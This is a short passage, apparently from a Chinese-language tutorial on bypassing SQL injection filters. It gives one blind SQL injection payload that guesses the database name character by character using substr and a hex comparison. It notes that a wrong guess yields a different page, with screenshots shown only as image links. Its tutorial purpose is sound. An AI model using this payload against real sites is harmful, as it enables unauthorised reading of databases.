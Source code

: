 实战效果，使用命令

```sql
?id=1' and (select(substr(database() from 1 for 1)))=0x73--+
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675823891583-9377139a-a99c-41c0-8072-761dfaaa8c0b.png)

如果猜测不对，就会出现下面的界面

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675823916729-66f4d257-d563-4cf5-b861-cd4a7edd5295.png)
